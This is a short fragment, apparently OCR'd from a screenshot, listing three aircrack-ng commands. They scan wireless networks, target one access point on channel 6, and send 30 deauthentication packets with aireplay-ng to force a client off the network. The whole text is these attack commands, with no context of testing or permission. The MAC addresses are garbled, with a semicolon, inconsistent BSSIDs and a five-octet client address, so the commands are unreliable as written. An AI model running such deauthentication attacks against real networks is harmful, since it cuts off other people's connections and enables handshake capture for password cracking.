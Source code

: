 airodump-ng wlan1
airodump-ng -c 6 --bssid 28:EF:01:35;64:85 wlan1
aireplay-ng -0 30 -a 28:EF:01:35:34:65 -c 28:EF:23:45:67 wlan1
